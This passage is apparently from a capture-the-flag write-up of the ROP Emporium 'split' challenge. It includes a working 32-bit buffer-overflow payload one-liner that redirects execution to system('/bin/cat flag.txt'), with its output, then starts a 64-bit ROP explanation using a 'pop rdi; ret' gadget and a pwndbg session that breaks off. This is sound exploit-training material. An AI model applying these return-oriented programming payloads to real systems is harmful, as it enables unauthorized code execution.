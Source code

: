 - `call system`: 0x804861a
- `/bin/cat flag.txt`: 0x8049030

Crafting and passing the *payload* as input to the program:

```bash
$ # payload = PADDING + call system addr + /bin/cat flag.txt addr (little-endianess)
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\x1a\x86\x04\x08" + b"\x30\xa0\x04\x08")' | ./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped 
```

It works!

## Binary Analysis x86-64

The considerations made previously with the **32-bit** version are also valid for the **64-bit** version.

The difference is in the passage of the command `/bin/cat flag.txt` to the function `system`.

Remember that in the x86-64 architecture the passing of parameters to a function is done via **registers** (and also via stack if the number of registers used for the passage of parameters is not sufficient).

In our case, the parameter must be passed via the **RDI** register.

So the idea is to:

1. determine the distance in bytes from the top of the stack to the **saved rip**.
2. look for the **gadget** `pop rdi; ret` to load the content allocated at the top of the stack into the **rdi** register, which will be the command `/bin/cat flag.txt`!

```bash
$ gdb-pwndbg                                                                                                                                                                                                                          [65/65]
pwndbg: loaded 190 pwndbg commands. Type pwndbg [filter] for a list.                                                                                                                                                                                                                    
pwndbg: created 13 GDB functions (can be used with print/break). Type help function to see them.                                                                                                                                                                                        
------- tip of the day (disable with set show-tips off) -------                                                                                                                                                                                                                         
Want to display each context panel in a separate tmux window? See https://github.com/pwndbg/pwndbg/blob/dev/FEATURES.md#splitting--layouting-context                                                                                                                                    
pwndbg> file split                                                                                                                                                                                                                                                                      
Reading symbols from split...                                                                                                                                                                                                                                                           
(No debugging symbols found in split)                                                                                                                                                                                                                                                   
pwndbg> cyclic                                                                                                                                                                                                                                                                          
```